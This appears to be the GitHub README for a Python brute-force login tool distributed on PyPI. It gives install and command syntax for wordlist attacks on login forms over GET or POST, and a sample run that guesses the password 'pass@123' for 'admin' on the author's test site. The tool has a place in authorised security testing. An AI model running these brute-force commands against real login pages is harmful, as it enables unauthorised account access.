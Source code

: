 # Brute Force Login Tool




![GitHub repo size](https://img.shields.io/github/repo-size/Praveenms13/Brute-Force-Login?style=plastic) ![](https://img.shields.io/badge/license-MIT-green) 

## Overview

This is a simple Brute Force Login tool written in Python. It is designed to assist in testing the security of login forms or API login endpoints. The tool supports both GET and POST HTTP methods for brute force attacks and give results based on the retrieved status code.

## Prerequisites
 - Python3
 - PIP
 
\
![Python Version](https://img.shields.io/badge/Python-3.x-blue) ![GitHub top language](https://img.shields.io/github/languages/top/Praveenms13/Brute-Force-Login?style=plastic) ![GitHub language count](https://img.shields.io/github/languages/count/Praveenms13/Brute-Force-Login?style=plastic) ![GitHub last commit](https://img.shields.io/github/last-commit/Praveenms13/Brute-Force-Login?color=red&style=plastic)

![GitHub stars](https://img.shields.io/github/stars/Praveenms13/Brute-Force-Login?style=social) ![GitHub watchers](https://img.shields.io/github/watchers/Praveenms13/Brute-Force-Login?style=social)



## License 

<a href="https://choosealicense.com/licenses/mit/">MIT</a>

### Target Site: https://forms.praveenms.site/login.php

The above site is used to test the Brute force login

## Features

- **Form Analysis:** Extracts and analyzes HTML form attributes to identify input names for username and password fields, extracts the `type` of a input tag or button tag, also extracts all the required tokens, cookies for a login Session.

<p align="center">
  <img src="inp.jpg" alt="Centered Image">
</p>

- **Wordlist Attack:** Supports username and password brute force attacks using a provided wordlist file.
- **GET and POST Methods:** Choose between GET and POST methods based on the target's login mechanism.
- **Cookie Support:** Optionally provide a cookie value for authentication.
- **User-friendly Interface:** Provides clear and colored console output for better user interaction.

## Installation (Release from PYPI)

#### PYPI Link: https://pypi.org/project/brute-force-attacker/

```
pip install brute-force-attacker
```

### How to Run as command line tool

```
brute -w <wordlist_file> -t <target_url> -m <http_method> [-u <username>] [-c <cookie_value>]
```

- `-t` or `--target`: Specify the target URL.
- `-w` or `--wordlist`: Specify the wordlist file.
- `-m` or `--method`: Specify the HTTP method (get or post).

Optional arguments:

- `-u` or `--username`: Specify the username for targeted brute force (optional).
- `-c` or `--cookie`: Specify the cookie value for authentication (optional).

## Examples

### Brute Force Login using POST with username

#### Here admin is the username, word1.txt contains all the common passwords (Passwords only)

```
brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
```

### Brute Force Login using POST without username

#### By the below syntax you can run the brute force attack without usernames as it takes all the common username and password from the file named word2.txt

```
brute -w word2.txt -t "https://forms.praveenms.site/login.php" -m POST
```

### Brute Force Login using GET with Username

#### This works on HTTP Get method with username where the username is given and the password is left Blank where it is extracted from the word1.txt

```
brute -w word1.txt -t "https://forms.praveenms.site/login.php?username=admin&password=" -m GET
```

### Brute Force Login using GET with Username

#### This works on HTTP Get method without username and password where the username and password is left Blank, it is extracted from the word2.txt

```
brute -w word2.txt -t "https://forms.praveenms.site/login.php?username=&password=" -m GET
```

## Sample usage

```
➜  Praveen brute-force git:(main U:1 ✗) 🚀 brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
Brute Force Login
Tool By Praveen
Required Login Page URL or API Login URL Endpoint
Leave blank if you don't have, In optional cases
This module is not intended to be imported
[+] Username Provided, Username: admin, Using Username From User Input
[+] Using POST Method

Form Attributes Found:

Form 1 attributes:
  Method: POST
  Action: login.php
  Input types:
    password, text
  Input names:
    username, password
  Input names for username and password fields:
    Username input name: username
    Password input name: password

[+] Using Wordlist: word1.txt
-----------------------------------------------
Trying: admin and root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ec2-user ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and vagrant ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and azureuser ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and !root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and pass@123 ...
[+] Status Code: 200
[+] Login Successful!
[+] Login Creds:
[+] Username: admin
[+] password: pass@123
```

## Disclaimer

This tool is intended for educational and testing purposes only. Unauthorized access to systems or networks without permission is illegal.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
